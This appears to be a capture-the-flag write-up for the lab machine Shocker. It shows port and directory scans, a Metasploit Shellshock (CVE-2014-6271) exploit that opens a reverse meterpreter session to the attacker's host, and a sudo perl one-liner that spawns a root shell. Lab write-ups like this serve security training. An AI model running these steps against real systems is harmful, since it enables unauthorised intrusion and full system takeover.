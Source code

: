 ```yaml
---
cover: ../../.gitbook/assets/Shocker.png
coverY: 263.1893333333333
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Shocker

## Information

* Add a virtual host.

```bash
echo '10.10.10.56 shocker.htb' | sudo tee -a /etc/hosts
```

* Scan all ports & all services.

```bash
nmap -p- -T4 shocker.htb -o nmap-ports
nmap -p 80,2222 -sV -O shocker.htb -o nmap-services
```

* Enumerate the web server

```bash
gobuster dir -u http://shocker.htb/ -w /usr/share/wordlists/dirb/common.txt -o gobuster-common
```

* You find the folder `/cgi-bin/` try to find a file inside of it.

```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x pl,cgi,sh -o gobuster-cgi-files
```

## Exploitation

* The CGI service is vulnerable to CVE-2014-6271

```
msf6> use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6> set RHOSTS shocker.htb
msf6> set TARGETURI /cgi-bin/
msf6> set LHOST tun0
msf6> set LPORT 1234
msf6> run
```

* You gain meterpreter access with **shelly**.

## PrivEsc

* Enumerate the sudo permissions of shelly.

```bash
shelly@target> cat /home/shelly/user.txt
shelly@target> sudo -l
```

* The binary `/usr/bin/perl` can be executed as root with no password.

```
shelly@target> sudo /usr/bin/perl -e "system('bash')"
```

And you gain the **root** access !
